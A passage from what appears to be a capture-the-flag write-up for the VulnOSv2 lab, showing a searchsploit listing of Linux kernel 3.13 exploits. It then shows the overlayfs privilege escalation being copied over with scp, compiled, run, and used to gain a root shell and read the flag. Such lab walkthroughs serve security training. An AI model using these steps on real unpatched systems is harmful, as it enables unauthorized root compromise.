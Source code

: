 ```
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
------------------------------------------------------------------------------------------------------------------ ----------------------------------
 Exploit Title                                                                                                    |  Path
                                                                                                                  | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------ ----------------------------------
Linux Kernel 3.13 - SGID Privilege Escalation (PoC)                                                               | exploits/linux/local/33824.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation              | exploits/linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc | exploits/linux/local/37293.txt
Linux Kernel 3.13.1 - 'Recvmmsg' Local Privilege Escalation (Metasploit)                                          | exploits/linux/local/40503.rb
Linux Kernel 3.13/3.14 (Ubuntu) - 'splice()' System Call Local Denial of Service                                  | exploits/linux/dos/36743.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Privilege Escalation (3)            | exploits/lin_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)                                   | exploits/linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)                                                             | exploits/linux/dos/31305.c
id Software Solaris Quake II 3.13/3.14 / QuakeWorld 2.0/2.1 / Quake 1.9/3.13/3.14 - Command Execution             | exploits/linux/remote/19079.c
pam-krb5 < 3.13 - Local Privilege Escalation                                                                      | exploits/linux/local/8303.c
------------------------------------------------------------------------------------------------------------------ ----------------------------------
```

Since the Linux Kernel version is 3.13.0 running on Ubuntu 14.04, we can try the exploit on `/usr/share/exploitdb/exploits/linux/local/37292.c` for a greater chance of success. Uploading the exploit code is as easy as `scp 37292.c webmin@192.168.1.100:~/37292.c` given our easy SSH access.

```
webmin@VulnOSv2:~$ which gcc
/usr/bin/gcc
webmin@VulnOSv2:~$ gcc -o 37292 37292.c 
webmin@VulnOSv2:~$ chmod +x 37292
webmin@VulnOSv2:~$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cat /root/flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```
